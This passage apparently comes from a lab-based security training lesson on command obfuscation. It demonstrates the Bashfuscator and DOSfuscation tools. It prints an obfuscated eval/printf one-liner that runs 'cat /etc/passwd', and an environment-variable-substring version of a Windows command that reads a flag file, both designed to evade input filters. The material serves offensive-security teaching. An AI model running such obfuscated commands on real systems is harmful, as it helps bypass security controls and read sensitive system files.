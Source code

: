 ```w'h'o'am'i```
However, running the tool this way will randomly pick an obfuscation technique, which can output a command length ranging from a few hundred characters to over a million characters! So, we can use some of the flags from the help menu to produce a shorter and simpler obfuscated command, as follows:

```./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1```

We can now test the outputted command with **bash -c ''**, to see whether it does execute the intended command:

```bash -c 'eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"'```


### DOSfuscation (Windows)

There is also a very similar tool that we can use for Windows called DOSfuscation. Unlike Bashfuscator, this is an interactive tool, as we run it once and interact with it to get the desired obfuscated command. We can once again clone the tool from GitHub and then invoke it through PowerShell.

```powershell
SET COMMAND type C:\Users\htb-student\Desktop\flag.txt
encoding
1
```

Finally, we can try running the obfuscated command on CMD, and we see that it indeed works as expected:

```
typ%TEMP:~-3,-2% %CommonProgramFiles:~17,-11%:\Users\h%TMP:~-13,-12%b-stu%SystemRoot:~-4,-3%ent%TMP:~-19,-18%%ALLUSERSPROFILE:~-4,-3%esktop\flag.%TMP:~-13,-12%xt
```